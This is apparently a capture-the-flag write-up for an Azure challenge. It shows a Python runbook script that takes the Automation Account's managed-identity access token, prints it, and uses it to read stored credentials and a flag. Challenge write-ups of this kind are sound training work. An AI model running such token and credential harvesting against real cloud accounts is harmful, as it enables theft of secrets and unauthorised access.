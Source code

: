 # Automated the secrets

## Challenge

![](img/2022-11-08-21-53-42.png)

## Solution

Log into the Portal at https://portal.azure.com.

Create a new runbook in the `abb6ea23d0f715-flag3-aa` Automation Account. Use script, and run it via Test pane. We're not allowed to start the runbook, but we're allowed to edit and test-run the script.

```python
#!/usr/bin/env python3 
import os 
import requests  
import automationassets
# printing environment variables 
endPoint = os.getenv('IDENTITY_ENDPOINT')+"?resource=https://management.azure.com/" 
identityHeader = os.getenv('IDENTITY_HEADER') 
payload={} 
headers = { 
  'X-IDENTITY-HEADER': identityHeader,
  'Metadata': 'True' 
} 
response = requests.request("GET", endPoint, headers=headers, data=payload) 
token = response.json()["access_token"] 
print(token)

headers = {"Authorization": f"Bearer {token}"}
url = "https://management.azure.com/subscriptions/ad116f11-921a-43ad-8b80-5b8af92e0833/resourceGroups/aa-rg/providers/Microsoft.Automation/automationAccounts/abb6ea23d0f715-flag3-aa/credentials?api-version=2019-06-01"

r = requests.get(url, headers=headers)
print(r)
print(r.content)

flag = "theflagishere"

ff = automationassets.get_automation_credential(flag)
print(ff)
```

![](img/2022-11-08-22-47-09.png)

The flag is shown in the response from the second request.

```
EPT{b31083e6-f896-443a-a0e9-2ec884ce3095}
```